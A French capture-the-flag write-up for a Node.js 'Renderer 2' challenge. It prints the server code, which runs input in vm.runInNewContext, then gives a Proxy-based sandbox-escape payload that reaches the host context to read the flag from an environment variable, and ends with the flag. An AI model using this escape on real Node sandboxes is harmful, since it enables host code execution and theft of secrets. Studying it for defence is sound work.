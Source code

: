 # Renderer 2 🔄
```
500 pts
```

## Description
```
[FR]
Lis le Flag.

[EN]
Read the Flag.

Author: 5c0r7

http://ctf.hackerlab.bj:1026
```

> Ce challenge nous dirige vers une application web équipée d'un outil capable d'interpréter du code NodeJs. Nous avons décidé d'envoyer une simple chaîne 'test' pour observer le comportement de l'outil. Nous avons obtenu une erreur, mais le plus important est que nous avons obtenu le nom du fichier JS. ```3ba648223b8d3b9259881647cc697ab3f7d53cb117bda99a86cee4c5dfa41b1ce8e07b1f4b2681c6ef2e705bb1cdfdefc5cfede9dcb630fd6827e7a1efadab0d.js```

<image src="File/renderer1.png">
  
> Lorsque nous accédons au fichier JS, nous trouvons le code qui se cache derrière l'outil.

```Javascript
const fs = require('fs');
const vm = require('vm');
SECRET = process.env.FLAG;
function executee(code){
	if (code.length != 0) {
		try {
			code_return = vm.runInNewContext(code,vm.createContext(Object.create(null)),{ timeout: 200 });
			if (code_return !== undefined) {
				if (code_return['compil_answer'] !== undefined) compil_answer = {compil_answer: code_return['compil_answer']};
				else compil_answer = {compil_answer: code_return};
			} else compil_answer = {compil_answer: "undefined"};
		} catch (err) {
			compil_answer = {compil_answer: err};
		}
	} else compil_answer = {compil_answer: 'Empty code'};
	return compil_answer;
}
if (process.argv.length === 2) {
    console.error("No code provided!");
    process.exit(1);
}
console.log(executee(process.argv[2]));
```
> Après analyse du code, nous remarquons que le flag se trouve dans la variable ```SECRET``` et que notre entrée est exécutée dans ```vm.runInNewContext()```, cela se fait dans un environnement isolé.

> Apres quelque recherche nous avons trouver un article interressant sur github qui permet de s'echapper de ce genre d'environnement. [Source](https://gist.github.com/jcreedcmu/4f6e6d4a649405a9c86bb076905696af)

> En parcourrant cette ressource nous avions trouvé un payload que nous pouvions utiliser pour nous échapper de cette sandbox et ainsi lire la variable ```SECRET```, ```new Proxy({}, {
  get: function(me, key) { (arguments.callee.caller.constructor('console.log(SECRET)'))() }
})```.

> Une fois le payload envoyé, nous obtenons le flag.

<image src="File/renderer4.png">

# Flag
```CTF_w31rd_s@ndb0xxxxx_It5n7_s3cuREEEEEE_hahaha``` 🥳
